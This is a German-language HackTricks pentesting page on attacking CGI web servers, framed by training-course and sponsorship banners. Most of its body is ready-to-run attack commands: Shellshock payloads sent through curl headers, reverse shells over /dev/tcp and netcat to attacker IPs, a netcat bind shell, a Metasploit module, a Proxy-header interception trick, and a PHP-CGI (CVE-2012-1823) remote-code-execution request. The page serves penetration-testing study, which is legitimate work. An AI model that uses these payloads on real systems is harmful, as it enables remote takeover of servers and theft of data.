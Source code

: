 {% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Vertiefe dein Fachwissen in **Mobilsicherheit** mit der 8kSec Academy. Meistere die Sicherheit von iOS und Android durch unsere selbstgesteuerten Kurse und erhalte ein Zertifikat:

{% embed url="https://academy.8ksec.io/" %}


# Informationen

Die **CGI-Skripte sind Perl-Skripte**, also, wenn du einen Server kompromittiert hast, der _**.cgi**_ Skripte ausführen kann, kannst du **eine Perl-Reverse-Shell hochladen** \(`/usr/share/webshells/perl/perl-reverse-shell.pl`\), **die Erweiterung** von **.pl** in **.cgi** ändern, **Ausführungsberechtigungen** geben \(`chmod +x`\) und die Reverse-Shell **vom Webbrowser aus aufrufen**, um sie auszuführen.
Um nach **CGI-Schwachstellen** zu suchen, wird empfohlen, `nikto -C all` \(und alle Plugins\) zu verwenden.

# **ShellShock**

**ShellShock** ist eine **Schwachstelle**, die die weit verbreitete **Bash**-Befehlszeilen-Shell in Unix-basierten Betriebssystemen betrifft. Sie zielt auf die Fähigkeit von Bash ab, von Anwendungen übergebene Befehle auszuführen. Die Schwachstelle liegt in der Manipulation von **Umgebungsvariablen**, die dynamische benannte Werte sind, die beeinflussen, wie Prozesse auf einem Computer ausgeführt werden. Angreifer können dies ausnutzen, indem sie **schadhafter Code** an Umgebungsvariablen anhängen, der beim Empfang der Variablen ausgeführt wird. Dies ermöglicht es Angreifern, das System potenziell zu kompromittieren.

Durch das Ausnutzen dieser Schwachstelle könnte die **Seite einen Fehler ausgeben**.

Du könntest diese Schwachstelle **finden**, indem du bemerkst, dass eine **alte Apache-Version** und **cgi\_mod** \(mit cgi-Ordner\) verwendet wird oder indem du **nikto** verwendest.

## **Test**

Die meisten Tests basieren darauf, etwas auszugeben und zu erwarten, dass dieser String in der Webantwort zurückgegeben wird. Wenn du denkst, dass eine Seite anfällig sein könnte, suche nach allen CGI-Seiten und teste sie.

**Nmap**
```bash
nmap 10.2.1.31 -p 80 --script=http-shellshock --script-args uri=/cgi-bin/admin.cgi
```
## **Curl \(reflektiert, blind und out-of-band\)**
```bash
# Reflected
curl -H 'User-Agent: () { :; }; echo "VULNERABLE TO SHELLSHOCK"' http://10.1.2.32/cgi-bin/admin.cgi 2>/dev/null| grep 'VULNERABLE'
# Blind with sleep (you could also make a ping or web request to yourself and monitor that oth tcpdump)
curl -H 'User-Agent: () { :; }; /bin/bash -c "sleep 5"' http://10.11.2.12/cgi-bin/admin.cgi
# Out-Of-Band Use Cookie as alternative to User-Agent
curl -H 'Cookie: () { :;}; /bin/bash -i >& /dev/tcp/10.10.10.10/4242 0>&1' http://10.10.10.10/cgi-bin/user.sh
```
[**Shellsocker**](https://github.com/liamim/shellshocker)
```bash
python shellshocker.py http://10.11.1.71/cgi-bin/admin.cgi
```
## Exploit
```bash
#Bind Shell
$ echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc -l -p 9999 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc vulnerable 8
#Reverse shell
$ echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc 192.168.159.1 443 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc vulnerable 80
#Reverse shell using curl
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.11.0.41/80 0>&1' http://10.1.2.11/cgi-bin/admin.cgi
#Reverse shell using metasploit
> use multi/http/apache_mod_cgi_bash_env_exec
> set targeturi /cgi-bin/admin.cgi
> set rhosts 10.1.2.11
> run
```
# **Proxy \(MitM zu Webserver-Anfragen\)**

CGI erstellt eine Umgebungsvariable für jeden Header in der HTTP-Anfrage. Zum Beispiel: "host:web.com" wird als "HTTP\_HOST"="web.com" erstellt.

Da die HTTP\_PROXY-Variable vom Webserver verwendet werden könnte, versuchen Sie, einen **Header** zu senden, der enthält: "**Proxy: &lt;IP\_attacker&gt;:&lt;PORT&gt;**" und wenn der Server während der Sitzung eine Anfrage ausführt, können Sie jede vom Server getätigte Anfrage erfassen.

# Alte PHP + CGI = RCE \(CVE-2012-1823, CVE-2012-2311\)

Grundsätzlich, wenn CGI aktiv ist und PHP "alt" \(&lt;5.3.12 / &lt; 5.4.2\) ist, können Sie Code ausführen. 
Um diese Schwachstelle auszunutzen, müssen Sie auf eine PHP-Datei des Webservers zugreifen, ohne Parameter zu senden \(insbesondere ohne das Zeichen "="\). 
Um diese Schwachstelle zu testen, könnten Sie beispielsweise auf `/index.php?-s` zugreifen \(beachten Sie das `-s`\) und **der Quellcode der Anwendung wird in der Antwort angezeigt**.

Um **RCE** zu erhalten, können Sie diese spezielle Abfrage senden: `/?-d allow_url_include=1 -d auto_prepend_file=php://input` und den **PHP-Code**, der im **Body der Anfrage** ausgeführt werden soll. 
**Beispiel:**
```bash
curl -i --data-binary "<?php system(\"cat /flag.txt \") ?>" "http://jh2i.com:50008/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input"
```
**Mehr Informationen über die Schwachstelle und mögliche Exploits:** [**https://www.zero-day.cz/database/337/**](https://www.zero-day.cz/database/337/)**,** [**cve-2012-1823**](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2012-1823)**,** [**cve-2012-2311**](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2012-2311)**,** [**CTF Writeup Beispiel**](https://github.com/W3rni0/HacktivityCon_CTF_2020#gi-joe)**.**

<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Vertiefen Sie Ihr Fachwissen in **Mobiler Sicherheit** mit der 8kSec Akademie. Meistern Sie die Sicherheit von iOS und Android durch unsere selbstgesteuerten Kurse und erhalten Sie ein Zertifikat:

{% embed url="https://academy.8ksec.io/" %}

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
